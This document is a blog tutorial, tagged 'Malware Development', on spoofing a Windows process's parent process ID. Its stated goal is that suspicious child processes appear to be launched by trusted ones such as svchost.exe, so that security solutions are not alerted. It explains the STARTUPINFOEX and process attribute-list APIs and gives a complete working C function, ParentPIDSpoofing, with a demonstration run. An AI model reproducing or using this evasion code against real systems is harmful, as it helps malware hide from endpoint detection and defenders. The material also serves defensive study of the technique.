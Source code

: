 ```yaml
---
layout: post
title: "Spoofing Parent Process ID (PPID)"
date: 2024-07-16 :00:00 +0000
tags: [Malware Development]
categories: [Malware Development]
---
```


# Spoofing Parent Process ID (PPID)


Parent Process ID (PPID) spoofing is a technique used to manipulate the relationship between a child process and its parent process. This makes it appear as though the child process was initiated by a different, legitimate process.

This can be achieved by modifying the parent process ID, making it appear as though the process originated from a trusted source. For example, an Excel sheet spawning a \`cmd.exe\` process would typically raise suspicions with security solutions, but \`svchost.exe\` spawning a \`cmd.exe\` would not.

Let’s explore how to spoof the Parent Process ID (PPID) of a process.

Creating a process
-------------------

To spoof a process PPID, we first need to create a process using the [CreateProcess](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw) WinAPI with the `EXTENDED_STARTUPINFO_PRESENT` flag set in the `dwCreationFlags` parameter. According to Microsoft documentation, this requires a [STARTUPINFOEX](https://learn.microsoft.com/en-us/windows/win32/api/winbase/ns-winbase-startupinfoexw) structure in the `lpStartupInfo` parameter.

![Extended_startup](./png_spoofing_parent_process/startupinfo_present.png)

STARTUPINFOEX structure
-----------------------

The `STARTUPINFOEX` structure specifies the window station, desktop, standard handles, and attributes for a new process. Since it is responsible for defining attributes for a new process, it will be particularly useful for our purpose.

The structure `STARTUPINFOEX` is shown below.

```c++
typedef struct _STARTUPINFOEXW {
    STARTUPINFOW StartupInfo;
    LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList;
} STARTUPINFOEXW, *LPSTARTUPINFOEXW;
```


*   **Startupinfo**: same as Startupinfo structure which was used to create a normal process.
*   **lpAttributeList**: An attribute list. This list is created by the [InitializeProcThreadAttributeList](https://learn.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) function.

As the `InitializeProcThreadAttributeList` function creates an attribute list for the process in inside `STARTUPINFOEX` structure. we have to take a look at it.

InitializeProcThreadAttributeList
---------------------------------

[`InitializeProcThreadAttributeList`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-initializeprocthreadattributelist) is responsible for Initializing the specified list of attributes for process and thread creation.

The `InitializeProcThreadAttributeList` function is shown below:

```c
BOOL InitializeProcThreadAttributeList(
  [out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwAttributeCount,
                  DWORD                        dwFlags,
  [in, out]       PSIZE_T                      lpSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list.
*   **dwAttributeCount**: The number of attributes to set.
*   **dwFlags**: This parameter is reserved and must be zero.
*   **lpSize**: This will return the size required to set the attributes.

The `dwAttributeCount`will be set to 1 since only one attribute is needed.

According to the microsoft the initial call to this function will return an error by design which will return the size required to allocate enough space for the data in the `lpAttributelist` buffer and call the function again to initialize the buffer. next the [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute)function will be responsible for adding attributes to the list.

![Initialize_procthread](./png_spoofing_parent_process/remarks_initialize_proc_thread.png)


UpdateProcThreadAttribute
-------------------------

The [`UpdateProcThreadAttribute`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute) function is shown below

```c
BOOL UpdateProcThreadAttribute(
  [in, out]       LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
  [in]            DWORD                        dwFlags,
  [in]            DWORD_PTR                    Attribute,
  [in]            PVOID                        lpValue,
  [in]            SIZE_T                       cbSize,
  [out, optional] PVOID                        lpPreviousValue,
  [in, optional]  PSIZE_T                      lpReturnSize
);
```


parameters:

*   **lpAttributeList**: A pointer to the attribute list initialized by `InitializeProcThreadAttributeList`. This list contains attributes to be updated.
*   **dwFlags**: Reserved; must be zero.
*   **Attribute**: The attribute to update. For our spoofing of PPID the `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` is required.

*   **lpValue**: A pointer to the value for the attribute being updated. in our case of PPID spoofing it becomes the handle of the parent process.
*   **cbSize**: The size of the value pointed to by `lpValue`, in bytes.
*   **lpPreviousValue**: Optional. A pointer to receive the previous value of the attribute, if needed.
*   **lpReturnSize**: Optional. A pointer to receive the size of the previous attribute value returned in `lpPreviousValue`.

LOGIC
-----

1.  call `InitializeProcThreadAttributeList` to set the number of attributes to be set and allocate enough space for the attributelist.
2.  call `UpdateProcThreadAttribute` with `PROC_THREAD_ATTRIBUTE_PARENT_PROCESS` to initialize the attribute.
3.  call `CreateProcessW` with the `EXTENDED_STARTUPINFO_PRESENT` flag and utilize the `STARTUPINFOEXW` structure that has been initialized using `InitializeProcThreadAttributeList` and updated using `UpdateProcThreadAttribute`

ParentPIDSpoofing function
--------------------------

`ParentPIDSpoofing` is a function that creates process with Spoofed PPID.

parameters:

*   **hprocess**: handle of the parent process whose PID is to be spoofed.
*   **newprocessname**: name of the process to create.
*   **hnewprocess**: A pointer to the handle which receives handle to the newly created process.
*   **dwnewPID**: A pointer to the PID which receives PID of the newly created process.

```C

BOOL ParentPIDSpoofing(handle hprocess, LPWSTR newprocessname, HANDLE* hnewprocess, DWORD *dwnewPID) {
 STARTUPINFOEXW SI = { 0 };
 PROCESS_INFORMATION PI = { 0 };
 SI.StartupInfo.cb = sizeof(STARTUPINFOW);
 SIZE_T Attributelist = 0;
 SI.StartupInfo.cb = sizeof(STARTUPINFOEXW);
 InitializeProcThreadAttributeList(NULL, 1, 0, &Attributelist);
 SI.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, Attributelist);
 if (SI.lpAttributeList == NULL) {
  printf("Heap alloc failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!InitializeProcThreadAttributeList(SI.lpAttributeList, 1, 0, &Attributelist)) {
  printf("InitializeProcThreadAttirbuteList failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!UpdateProcThreadAttribute(SI.lpAttributeList, 0, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hprocess, sizeof(hprocess), NULL, NULL)) {
  printf("UpdateProcThreadAttirbute failed with error no %x\n", GetLastError());
  return FALSE;
 }
 if (!CreateProcessW(NULL, newprocessname, NULL, NULL, FALSE, EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &SI.StartupInfo, &PI)) {
  printf("The CreateprocessW failed with error no %x\n", GetLastError());
  return FALSE;
 }
 *hnewprocess = PI.hProcess;
 *dwnewPID = PI.dwProcessId;
 return TRUE;
}
```


Execution
---------

Create the child process `Notepad.exe` with the parent process being `svchost.exe`, which has a PID of 4312.

`NOTE: svchost.exe is running with normal privileges.`

`Notepad.exe` appears to be spawned by `svchost.exe` .